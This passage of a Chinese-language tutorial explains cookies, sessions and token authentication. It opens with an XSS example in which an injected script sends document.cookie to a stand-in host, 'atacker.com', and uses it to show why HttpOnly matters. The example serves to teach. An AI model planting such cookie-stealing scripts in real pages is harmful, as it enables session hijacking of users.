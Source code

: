 
**XSS攻击：**
```JS
<script>window.open("atacker.com?cookie=" + document.cookie</script> 

// 当你访问这条帖子的内容时，浏览器就会执行 <script> 中的代码，导致你的 Cookie 被发送给攻击者，接着攻击者就可以利用你的 Cookie 登录论坛，然后为所欲为了
```
而当设置了 HttpOnly 后，ducoment.cookie 将获取不到 Cookie，攻击者的代码自然就无法生效了。

## Session
* session 是另一种记录服务器和客户端会话状态的机制
* session 是基于 cookie 实现的，session 存储在服务器端，sessionId 会被存储到客户端的cookie 中

![Session](https://user-gold-cdn.xitu.io/2019/12/29/16f523a04d0b3cf5?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)

* session 认证流程：
    > 用户第一次请求服务器的时候，服务器根据用户提交的相关信息，创建对应的 Session
    > 请求返回时将此 Session 的唯一标识信息 SessionID 返回给浏览器
    > 浏览器接收到服务器返回的 SessionID 信息后，会将此信息存入到 Cookie 中，同时 Cookie 记录此 SessionID 属于哪个域名
    > 当用户第二次访问服务器的时候，请求会自动判断此域名下是否存在 Cookie 信息，如果存在自动将 Cookie 信息也发送给服务端，服务端会从 Cookie 中获取 SessionID，再根据 SessionID 查找对应的 Session 信息，如果没有找到说明用户没有登录或者登录失效，如果找到 Session 证明用户已经登录可执行后面操作。


根据以上流程可知，SessionID 是连接 Cookie 和 Session 的一道桥梁，大部分系统也是根据此原理来验证用户登录状态。

## Cookie 和 Session 的区别

* 安全性： Session 比 Cookie 安全，Session 是存储在服务器端的，Cookie 是存储在客户端的。
* 存取值的类型不同：Cookie 只支持存字符串数据，想要设置其他类型的数据，需要将其转换成字符串，Session 可以存任意数据类型。
* 有效期不同： Cookie 可设置为长时间保持，比如我们经常使用的默认登录功能，Session 一般失效时间较短，客户端关闭（默认情况下）或者 Session 超时都会失效。
* 存储大小不同： 单个 Cookie 保存的数据不能超过 4K，Session 可存储数据远高于 Cookie，但是当访问量过多，会占用过多的服务器资源。

## Token（令牌）
### Acesss Token
**访问资源接口（API）时所需要的资源凭证**
**简单 token 的组成:** uid(用户唯一的身份标识)、time(当前时间的时间戳)、sign（签名，token 的前几位以哈希算法压缩成的一定长度的十六进制字符串）

**特点：**
* 服务端无状态化、可扩展性好
* 支持移动端设备
* 安全
* 支持跨程序调用

**token 的身份验证流程：**
![token 的身份验证流程](https://user-gold-cdn.xitu.io/2019/12/29/16f523a04d9c745f?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)

* 客户端使用用户名跟密码请求登录
* 服务端收到请求，去验证用户名与密码
* 验证成功后，服务端会签发一个 token 并把这个 token 发送给客户端
* 客户端收到 token 以后，会把它存储起来，比如放在 cookie 里或者 localStorage 里
* 客户端每次向服务端请求资源的时候需要带着服务端签发的 token
* 服务端收到请求，然后去验证客户端请求里面带着的 token ，如果验证成功，就向客户端返回请求的数据
